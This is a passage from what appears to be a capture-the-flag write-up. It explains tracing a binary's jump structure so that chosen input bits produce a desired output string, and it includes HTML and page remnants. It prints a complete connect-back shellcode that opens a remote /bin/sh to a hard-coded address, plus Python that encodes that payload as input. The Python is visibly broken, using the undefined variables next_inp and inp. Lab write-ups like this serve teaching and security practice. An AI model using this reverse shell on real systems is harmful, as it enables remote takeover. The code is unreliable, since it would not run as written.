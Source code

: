   <div class="code-embed-infos">
    <span class="code-embed-name"></span>
  </div>
</div>

A bit explanation on that Python code, after everything is done:

  * If we have `before[an_address] == another_address`, that says in order to reach `another_address` the function needs to jump to `an_address` first.
  * We also have `before[a_character] ==  address` that indicates the function needs to jump to `address` to return `a_character`.

With that data we could trace back the bit stream for any character by starting from `before[character]`.

For example with character &#8216;H&#8217;, we got the steps:

    0x60e1e0  ->  address = *(address + 8) -> 1
    0x60e1b0  ->  address = *(address + 8) -> 1
    0x60e180  ->  address = *(address)     -> 0
    0x60e0f0  ->  address = *(address + 8) -> 1
    0x60e000  ->  address = *(address)     -> 0
    0x608fc0  ->  'H'
    

So we need 5 bits &#8217;11010&#8242; from raw_input to get &#8216;H&#8217; in final output.

We extend that Python code a bit to build the input from the shellcode, in this case we use a connect-back shellcode (Thanks <a href="http://twitter.com/manhluat93" title="@manhluat93" target="_blank">@manhluat93</a> for this awesome shellcode).

<div class="code-embed-wrapper">
  <pre class="language-python code-embed-pre line-numbers" ><code class="language-python code-embed-code">
&#8230;.
shellcode = &#8216;H1\xd2H1\xc0\xb2\x02H\x89\xd7\xb2\x01H\x89\xd6\xb2\x06\xb0)\x0f\x05H\x89\xc7H1\xc0P\xbb\xd2\xd3}UH\xc1\xe3 f\xb8\x11\\\xc1\xe0\x10\xb0\x02H\t\xd8PH\x89\xe6H1\xd2\xb2\x10H1\xc0\xb0*\x0f\x05H1\xf6H1\xc0\xb0!\x0f\x05H1\xc0\xb0!H\xff\xc6\x0f\x05H1\xc0\xb0!H\xff\xc6\x0f\x05H1\xf6H1\xd2RH\xbf//bin/shWH\x89\xe7H1\xc0\xb0;\x0f\x05\xc3&#8242;
bitstream  = &#8220;&#8221;
for item in shellcode:
    next_stream = &#8220;&#8221;
    while before[item] != None:
        if before[item] != None:
            if eval(memory[before[item]]) == item:
                next_stream = &#8220;0&#8243; + next_inp
            elif eval(memory[before[item]+8]) == item:
                next_stream = &#8220;1&#8243; + next_inp
            else:
                pass
        item = before[item]
    bitstream = bitstream + next_inp
# The result would be: bitstream = &#8217;1010101010010100101&#8230;.&#8217;
raw_inp  = &#8220;&#8221;
for i in range(len(inp)/8):
    s = bitstream[i*8:i*8+8]
    raw_inp += chr(int(s,2))
print repr(raw_inp)
</code></pre>
  

 [1]: http://zepvn.com/uploads/2014/05/byhd_147e0accdae13428910e909704b21b11.tar.gz